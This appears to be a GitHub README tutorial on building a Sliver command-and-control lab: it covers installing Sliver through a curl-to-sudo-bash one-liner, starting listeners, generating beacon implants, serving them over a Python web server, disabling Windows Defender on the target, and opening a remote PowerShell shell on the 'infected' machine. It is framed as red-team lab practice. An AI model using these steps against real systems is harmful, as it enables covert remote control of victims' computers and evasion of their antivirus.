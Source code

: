 # How To Create a C2 Server Using Sliver


This tutorial will cover how to setup a [Sliver](https://github.com/BishopFox/sliver) host  (*Tested with Ubuntu 20.04 but should work with other distributions*)

## Linux One-Liner Installation
To get started, the simplest way is to utilize their 'one-liner' installation.

Simply go to any terminal with elevated permissions and run

`curl https://sliver.sh/install | sudo bash`

This should begin the installation process for whatever version of Linux you are using.

> **Note: The Sliver host *can* be a Windows machine, but Sliver themselves advise against it as some features will not work as expected**

Before you run the service, you may want to install `mingw-w64` to allow DLL payloads and shellcode to be deployed.

To run the service, simply type `sliver` into your terminal and it should start up. 

**Before you start the service, please take note of your IP address using either `ip address` or `hostname -I` if not already known**

## Listeners
The most basic feature that we will be utilizing first is a listener. To start a listener, open sliver and input `http -l <port>`. You can also just run `http` to open the default port of 80. However, I used port 8080 as this will be useful in future steps when running the file server.

If you attempt to open a port that is already running a listener, your output will look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4bf1145e-1ad9-4a5b-8aef-5432707c1191)

Whereas open ports should look like this:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/13167cbb-ec28-410d-be99-53834cf49d44)

For now, just open one listener at port 8080 and then continue on in this guide.

If you wish to see which listeners are running, type `jobs` into the terminal to see

## Beacons
The next step is to utilize this listener using a beacon. A beacon is a generated executable that once run on the machine to be infected (we'll get there soon), will allow you to run commands as said infected computer.

To create the beacon, you will run a command similar to the following:
`generate beacon -b <YOURLINUXIP>:8080`
![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6fa50ec3-a52f-46a2-9417-b113cf6512c6)

This will create an executable which you will serve up to the machine that is to be 'infected' (for non-malicious purposes, of course)

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
Infecting the Windows Machine will first and foremost require some changes to Windows Defender. Sadly, due to the popularity of this tool, Windows Defender has wisened up and will recognize the signature, not allowing you to run the executable otherwise. Locate the Virus & threat protection settings using the search bar:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e5940d54-f229-4a8c-ac8d-5348e5e0735c)

Go to Virus & Threat protection settings:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9453cae9-69e5-45d8-99af-656e03381fd1)

And at the bare minimum, disable Automatic sample submission:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/14c88c42-34e5-44f2-86c8-eee6e3af397e)

I went ahead and disabled all, as this is a virtual machine purely for the sake of testing and didn't want any impedence.

### Open Server on Any Internet Browser

Next, open any internet browser (I used Internet Explorer) and access the file server that was previously opened in the Serve Up Executable step.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/771bde13-a11d-44ef-a6a8-3a0ad32f5875)

What you should then find is a very simple webpage with the files listed at the directory where the executable is.
(You should only see one executable, unless you generated multiple like me)

> If there is no page found, then you probably are experiencing the same issue I was, which is... networking.
> To fix this, I utilized Port Forwarding on Virtualbox between my two machines, and a inter-machine NAT Network that took a while to figure out. Networking with virtual machines can be a huge pain, so if you like a guide, I would look [here](https://www.youtube.com/watch?v=t4qqir33snI)

Otherwise, you should see something like this

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/9ff21807-a837-4f85-8273-8cd8c4db1620)

Next, click on the hyperlink to the executable and run:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/5c3826c2-1326-4972-bd40-20b92a489d56)

Upon doing so, Sliver should hint that someone is falling for the trap!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/e39daf73-fadf-4e85-bcc9-6ffe44c517f3)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/58d94a92-6821-4ae1-9eb7-1d6441dabbdf)

Once the executable is done running, you are done with the client. You're in, that easy!

## The Door's Open, Now What?

Upon the executable finishing its execution, you should see this on your sliver host:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/fa5ba95f-5ea8-4a51-8bf1-7d0fdfc31e32)

You can type `beacons` into your terminal to see the newly infected computer available to your host (i've done this a few times):

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e3b5b35-65b8-4e43-a720-34925cf075dd)

### Open a Session
Next, you will open up a session with your infected client.

Simply type `use`, tab to auto fill the session id, and press enter on the desired session:

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/53040da1-fe03-414f-8772-2c25fa2465f6)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/ed2a4b69-a89a-4c70-84d1-5e4c26b3884a)

Now that the session is open, you have a myriad of options available to you. I will not cover all of them, except an important one, which is opening a powershell session on the infected client.

### Powershell Session
To open a shell, you will need to create an `interactive` session.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/659ad9b0-f5ec-4567-8ff7-a04b7b63343b)

To do so, first type `interactive` into your terminal.

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b45c64a1-a837-4b21-b4a0-bfd8906b69c9)

Open that new session using use (In the image above, the first part of the id you want to find is referenced, in this case `10329df6 ...`):

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/b91232d9-de5f-44a0-a555-e25908095612)

This will open an 'interactive' session which will allow you to run a shell (you may need to wait for the command to run, because beacons use a periodic execution strategy to avoid detection).

To confirm if you are in the correct session, your terminal should be red if you are in an interactive session.

Now, simply type `shell` into your terminal, accept the disclaimer, and you can now run powershell commands on your client as if you were the user!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/bdbbf84b-ee17-4eb3-a44c-1ba6e713ea1f)

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/6da377ef-b521-4609-b08f-c8cb283d08b1)

This shell can now be used to run atomic tests, or whatever else you could think to do with this.

Happy coding!




